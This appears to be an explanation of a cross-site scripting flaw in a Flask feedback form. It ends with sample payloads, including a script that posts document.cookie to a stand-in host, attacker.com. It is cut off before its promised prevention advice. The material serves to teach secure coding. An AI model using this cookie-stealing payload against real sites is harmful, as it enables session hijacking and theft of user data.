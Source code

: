 The provided Flask web application contains a significant security vulnerability that can be exploited using **Cross-Site Scripting (XSS)** techniques. Below is a detailed explanation of the exploitation process, followed by best practices to prevent such vulnerabilities in the future.

---

## **Exploitation Explained: Cross-Site Scripting (XSS)**

### **Understanding the Vulnerability**

1. **User Input Handling:**
   - The application collects user input through a form field named `feedback` via a POST request.
   - This input is retrieved using `request.form.get('feedback', '')` and stored in the `feedback` variable.

2. **Rendering the Template:**
   - The `feedback` variable is passed directly to `render_template_string` and inserted into the HTML template using `{{ feedback }}`.
   - The template uses Jinja2's double curly braces `{{ }}` to insert the `feedback` content.

3. **Lack of Proper Sanitization:**
   - While Jinja2 templates typically auto-escape variables to prevent XSS, using `render_template_string` can sometimes bypass or complicate these protections, especially if autoescaping is disabled or improperly configured.
   - If an attacker can inject malicious scripts into the `feedback` field, and these scripts are rendered without proper escaping, they can execute in the context of the user's browser.

### **How an Attacker Can Exploit This:**

1. **Injecting Malicious Scripts:**
   - An attacker submits a feedback input containing malicious JavaScript code. For example:
     ```html
     <script>alert('XSS Attack!');</script>
     ```
   - This input is stored in the `feedback` variable and rendered directly into the HTML without sufficient sanitization.

2. **Execution in Victim's Browser:**
   - When another user views the page with the malicious feedback, the injected `<script>` tag executes, triggering the alert.
   - Beyond simple alerts, attackers can execute more harmful actions, such as stealing cookies, session tokens, or performing actions on behalf of the user.

3. **Potential Consequences:**
   - **Session Hijacking:** Stealing user session cookies to impersonate users.
   - **Phishing:** Redirecting users to malicious sites or displaying fake login forms.
   - **Defacement:** Altering the displayed content to mislead or deceive users.
   - **Data Theft:** Accessing sensitive information displayed on the page.

### **Demonstration of the Exploit:**

1. **Attacker Submits Malicious Feedback:**
   ```html
   <script>
       // Malicious script to steal cookies
       fetch('https://attacker.com/steal', {
           method: 'POST',
           body: document.cookie
       });
   </script>
   ```
